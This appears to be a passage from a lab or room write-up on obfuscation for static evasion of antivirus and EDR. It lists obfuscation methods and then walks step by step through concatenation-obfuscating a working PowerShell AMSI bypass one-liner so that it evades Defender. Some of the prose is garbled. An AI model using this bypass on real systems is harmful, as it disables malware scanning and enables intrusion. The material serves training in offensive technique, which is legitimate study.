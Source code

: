 **Obfuscation’s Function for Static Evasion**

Two of the more considerable security boundaries in the way of an adversary are **anti-virus engines and EDR (Endpoint Detection &amp; Response) solutions**. Both platforms will leverage an extensive database of known signatures referred to as static signatures as well as heuristic signatures that consider application behavior.

To evade signatures intensive range of logic and syntax rules in implement obfuscation. This is commonly achieved by abusing data obfuscation practices that hide important identifiable information in legitimate applications.

The aforementioned white paper Layered **Obfuscation Taxonomy**, summarizes it well under the **Code-Element layer**. Below is a table of methods covered by the taxonomy in the obfuscating data sub-layer.

Obfuscation Methods:

**Array Transformation**: Transforms an array by splitting, merging, folding, and flattening.

**Data Encoding**: Encodes data with mathematical functions as ciphers.

**Data Procedurization**: Substitutes static data with procedure calls

**Data Splitting/Merging**: Distributes information of one variable into several new variables.

Extending from **concatenation**, attackers can also use non-interpreted characters to disrupt or confuse a static signature. Those can be used independently or with concatenation, depending on the strength/implementation of the signature. Below is a table of some common non-interpreted characters that we can leverage.

![](https://cdn-images-1.medium.com/max/800/1*aZOd0RCWAVqIwstKDkBjYg.png)

Using the knowledge you have accrued throughout this task, obfuscate the following PowerShell snippet until it evades Defender’s detections.

> **Q: \[REF].Assembly.GetType(‘System.Management.Automation.AmsiUtils).GetField(‘amsiInitFailed’,’NonPublic,Static’).SetValue($null,$true).**

> **1. \[REF].Assembly.GetType(‘System.Management.Automation.AmsiUtils)&gt;&gt;**

> **\[REF].Assembly.GetType(‘System.Management.Automation.’+’Amsi’+’Utils’)**

> **2. \[REF].Assembly.GetType(‘System.Management.Automation.AmsiUtils).GetField(‘amsiInitFailed’,’NonPublic,Static’) &gt;&gt;**

> **\[REF].Assembly.GetType(‘System.Management.Automation.’+’Amsi’+’Utils’).GetField(‘amsi’+’Init+’Failed’,’NonPublic,Static’)**

> **3. \[REF].Assembly.GetType(‘System.Management.Automation.AmsiUtils).GetField(‘amsiInitFailed’,’NonPublic,Static’).SetValue($null,$true)&gt;&gt;**

> **$Value=’SetValue’**

> **\[REF].Assembly.GetType(‘System.Management.Automation.’+’Amsi’+’Utils’).GetField(‘amsi’+’Init+’Failed’,’NonPublic,Static’).$Value($null,$true)**

**Obfuscation’s Function for Analysis Deception**

After obfuscating basic functions at malicious code, it may be able to gets software detections but is still susceptible to human analysis, while not a security boundary without further policies, analysts and reverse engineers can gain deep insight into the functionality of our malicious application and halt operations.
